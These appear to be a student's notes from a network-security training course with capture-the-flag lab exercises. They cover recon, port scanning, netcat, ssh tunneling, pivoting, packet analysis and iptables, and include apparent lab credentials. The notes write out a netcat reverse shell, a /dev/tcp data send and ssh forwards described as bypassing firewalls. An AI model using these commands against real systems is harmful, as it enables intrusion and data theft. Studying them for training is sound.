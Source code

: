 

Import Socket: 
  s = socket.socket(socket.FAMILY, socket.TYPE, socket.PROTOCOL)
    FAMILY Constants = AF_INET, AF_INET6,AF_UNIX
    TYPE Constants = SOCK_STREAM,SOCK_DGRAM,SOCK_RAW
    PROTO Constants = 0,IPPROTO_RAW
if you are going to create a tunnel and need to connect a socket through, change the ipaddr to the loopback and the port will be high number port on the tunnel.


Socket types:
  Stream : 
    connection orieneted and sequences; methods for connection establishment and tear-down, used with tcp,sctp,and bluetooth (protocol not needed)
  Datagram:
    connectionless; designed for quickly sending and receiving data, used with upp (Protocol not needed)
  Raw:
    Direct sending and receiving of ip packets without automatic protocol-specific formatting




------------------------------------------------------------------

4 types of recon
  active
      
  passive
      gathering info without direct interaction
      lower risk of discovery
      not as straight forward and requieres more time than active
      trying to find IP addresses and subdomains, external and 3rd party sites, people and technologies, content of interest, vulnerabilities
      whois queries, job site listings, phone numbers, google searches, passive OS fingerprinting
  internal
      sitting inside trying to find more shit inside the network
      packet sniffers ie. tcpdump, wireshark (internal passive)
      dns queries, arp reqests (internal active)
  external
      generally the start, from outside the target system
      OSINT (external passive)
          resolving hostnames to ip addresses, rfc 3912, WHOIS queries  
            DIG:
              typically between primary and secondary dns servers
              if allowed to transfer externally hostnames, IPs and IP blocks can be determined

network scanning
 #linux   for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
 #Windows for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.
   
  21-23,80
  remote to local
    pen testing
  local to remote
    illegal
  local to local
    network admins
  remote to remote
    checking a lotta shit at once
    don't worry about it
  aim:
    wide range target scan
    target specific scan
  method:
    how you're scanning
    single source scan
    distributed scan

  idle scan uses zombie IP, uses another person's IP (that ou have to specify  to do the scan

  find open ports with nmap then use netcat to verify
      echo " ' | nc -v <ip> <port number>




host discover
  nmap, nc, scan scrpt, ping sweep
port discovery
  nmap, nc
port validation
  banner grabbing using nc
follow on actions based on ports found
  if 22 or 23 CONNECT and PASSIVE RECON
  IF 21 or 80 wget -r IP_ADDRESS **OR** wget -r ftp://IP_ADDRESS **OR** firefox
      eom or eog to open them


scan methodology
quick scan 21-23, 80
specific ports based on hints/clues
well knows
chinks of 2000 or first 10000
hail mary, (65535)
-----------------------------------------------------------------

day 5) 

transfering data - tftp, ftp (active/passive), sftp like ftp but with encryption of ssh, ftps, 

ftp <ip> | anonymous(free account on it if enabled) 
 wget -r <ip> | wget -r ftp://<ip>:<port> 

scp <location> <desination>
remote | scp student@<ip>: <file path> <where i want it> 
local | <where its located> student@<ip> :<where you want it> 
remote to remote | scp -3 student@<ip> :<what you want> student@<ip>:<where you want it>



port forward | scp -P 1111 student@localhost:file  <where you want it> 


netcat 
--------------
listning port must be made first 


listner
--------------
nc <ip> <port> < file.txt
nc -l -p 9001 > newfile.txt 
---------------------------
client relay 
-----------
mknod mypipe p (or) mkfifo <name> 

listners 
-------------
nc -l -l 9002 < infile (sends info) 
nc -l -p 9001 > outfile (recieves info) 


tunneling
______________________
creates ssh, then tells what port to go through 

send traffic
-----------------
nc -l -p 1111 > file.txt
cat file.txt > /dev/tcp/<ip>/<port>

requesting a shell
----------------------
nc -c /bin/sh <your ip> <any unfilterd port> 
nc -l -p <port that was unfiltered> -vvv

ssh local port forwarding
-------------------------
                                        (or host name) 
ssh -p <optional alternate port> <user>@<ip> -L <myport>: target:<Target port> -NT 

ex) ssh student@172.16.82.106 -L 1111:localhost:80 -NT (a way to access a private web server this host only has access too. if its an active webserver) 

ssh student@172.16.1.15 -L 1111:172.16.40.10:22
ssh student@localhost -p 1111 -L 2222:172.16.82.106:80 

        (9050)
ssh -D <port> -p <alt port> user@povit ip -NT   (use a 3rd praty software to figure it out; proxychains) any tcp protocoal can  be used, only forwards tcp traffic 
ex) ssh student@172.16.82.106 -D 9050 -nt 

on my box) proxychains ./network (network scan) 
          porxychains ssh student@<ip> -p


proxychains curl ftp://www.onlineftp.ch
proxychains wget -r www.espn.com
proxychains ./network

ssh student@10.10.0.40 -R 1111:localhost: 80 -nt (bypassing firewall to get traffic) 

ss -ntlp (view ports on your loop back) ss -antp (established ports)
------------------------------------------------------

search commands 
----------------------
find / -name hint* 2> /dev/null

find / -name flag* 2> /dev/null


----------------------------------------------------------------------
day ?)

/etc/p0f/p0f.fp

wireshark 
---------------
protocol high archy click as apply as filter

tcpdump -r <file>
tcpdump -r <file> tcp[13] = 0x02 | sort | uniq -c 

sudo p0f -r wget.pcap -o /var/log/p0f.log 
alert = log data 
sensors = in-line, passive
methods= tap, span, arp spoofing(MitM)

IOA - passive 


IOC - reactive 

--------------------------------------------------------------

day 6?)

network traffic filtering 
-----------------------------
(firewalls)
-----------
host: ex) windows definder 
network: on interfaces effecting the whole network
proxy:  layer 3-7
switch: layer 2/3 
router: layer 3-4
ids and ips: layer 3-7
host baised firewall: 3-7

whitelist: default is explicit deny 
blacklist: default is explicit allow 

network device modes: 
routed (router) 
transparent (copies and forwards it through) 
firewall: stateless(onepacket L 3/4), statefull inspection(L4), application fkters(layer7)
firewall: to block everything everythin going to the internal network 


iptables: -A append -I insert at top  -L list -P change defult policy -p protocol -d dest addr -s src addr -j jump to target action -n port number vice -t specifies a specific filter 

nft add table [family] [table] chain {type [type] hook [hook] priority [priority]\; policy [policy] \;}         Ex) 

sudo iptables -A INPUT -p tcp --dport 22 -j ACCEPT (allows ssh through fire wall) 
sudo iptables -A OUTPUT -p tcp --sport 22 -j ACCEPT(allows ssh out through the firewall) 
sudo iptables -P INPUT DROP 
sudo iptables -P OUTPUT DROP


external interface: genaric rules on first firewall
ids&ips: right at the exit of th external
























hint on 10.50.44.211
-----------------------
You are on this workstation as Jose Cuervo, a local strongman. You have the ability to execute commands on this Pineland workstation as an actor for Pineland. Jose has a friend in Atropia that has provided him with the ability to SSH to the Allies' pivot point. You (Jose) should look into providing intel on other interesting workstations in the area controlled by Keith Mohammand, a wanted terrorist. Those workstations are not directly reachable from Atropia, but are on the same subnet as Jose's workstation which may be used to exfiltrate information. Jose also has a flag that can be found by using the find command on his system. The directory where the flag is found has been commonly used throughout the network.



The flag is the PDU for UDP at the transport layer.

 number 10 ssh 
 --------------------------------------
net4_comrade18
privet18


ssh net4_student18@localhost -p 41810 -L 41820:192.168.0.40:5555 -NT
 ssh  net4_student18@localhost -p 41820 -L 41830:172.16.0.60:23 -NT
 use telent
ssh net4_student18@192.168.0.40 -p 5555 -R 41840:localhost:22 -NT
ssh net4_student18@localhost -p 41820 -L 41850:localhost:41840 -NT
ssh net4_comrade18@localhost -p 41850 -D 9050 -NT














